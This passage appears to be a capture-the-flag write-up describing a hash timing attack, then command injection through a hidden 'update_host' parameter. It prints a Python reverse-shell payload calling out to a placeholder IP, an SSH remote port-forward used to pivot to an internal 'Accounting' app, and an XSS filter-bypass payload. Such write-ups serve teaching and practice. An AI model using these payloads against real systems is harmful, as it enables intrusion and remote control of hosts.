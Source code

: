     f9865a4952a4f5d74b43f3558fed6a0225c6877fbaaaaaaaaaaaaaaaaaaaaaaa ( 11.2 - 11.4) [ba]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60aaaaaaaaaaaaaaaaaaaa ( 11.8 - 11.9) [60]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a2aaaaaaaaaaaaaaaaaa ( 12.1 - 12.3) [a2]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250aaaaaaaaaaaaaaaa ( 12.7 - 13.4) [50]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcaaaaaaaaaaaaaa ( 13.3 - 13.6) [bc]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbdaaaaaaaaaaaa ( 13.8 - 14.0) [bd]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde7aaaaaaaaaa ( 14.0 - 14.4) [e7]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753aaaaaaaa ( 14.7 - 14.9) [53]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5aaaaaa ( 15.1 - 15.5) [f5]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5dbaaaa ( 1 - 15.9) [db]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5db13aa ( 16.4) [13]
    f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5db13d8 ( 16.9 ) [d8]

And got a `session` cookie when logged in using the correct hash, at the first time i thought that was an `JWT` but it was not, that was an Flask session token which structured as `[Payload].[Expiry].[Signature]` , tried an attack to find if the session generated using a weak key but it was not working.

After  strugling around i found that `http://104.196.12.98/update?port=80` have a hidden parameter `port` and i just think there must be another hidden parameter and i make a custom wordlist to bruteforce the parameter using burp intruder and found another `update_host` as a valid parameter reflecting to the output.

the `update_host` parameter is vulnerable to Remote Code Execution we can execute any arbitary code just by using a backtick.

\[RCE1\]

create a reverse shell using python

     http://104.196.12.98/update?port=80&update_host=`python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22YOUR_IP%22,1212));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`

and then `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a TTY, I realize that we still on a container and scanning the network give me other internal application called `Accounting` and i create remote port forwarding using an ssh

    ssh -v -o PreferredAuthentications=password -o PubkeyAuthentication=no -o StrictHostKeyChecking=no -fN -R IP_ADDR:8663:172.28.0.3:80 abdilahrf@IP_ADDR

\[ACCOUNTING\]

And again the application is behave diferently when i try to inject the parameter password with SQL Injection, after 2 days for looking any working exploits i just realize another way to get in to the application in [http://IP_ADDR:8663/invoices](http://IP_ADDR:8663/invoices) they have an HTML Comment to [http://IP_ADDR:8663/invoices/new](http://IP_ADDR:8663/invoices/new) which doesn't ask for any authentication, so the authentication is an rabbit hole 100%.

after a while i found that the application is detecting substring of `script` and remove the string i can abuse that to bypass any filter used in the application like close tag filter and even bypass the chrome auditor.

to close tag i can use `<script/style>` so we can close the style tag and do something else, on  the preview i got an xss using this payload :

    http://IP_ADDR:8663/invoices/preview?d={%20%22companyName%22:%20%22Hackerone%22,%20%22email%22:%20%22administrator@hackerone.com%22,%20%22invoiceNumber%22:%20%221337%22,%20%22date%22:%20%221337-1337-01%22,%20%22items%22:%20[%20[%221%22,%20%22%22,%20%22%22,%20%2210%22]%20],%20%22styles%22:%20{%20%22body%22:%20{%20%22background-color%22:%20%22white%22,%20%22%3Cscript/style%3E%3Cscrscriptipt%3Ealescriptrt(1337);%3Cscript/scrscriptipt%3E%3Ch2%20id=%27result%27%3Ex%3Cscript/h2%3E%22:%22x%22%20}%20}%20}
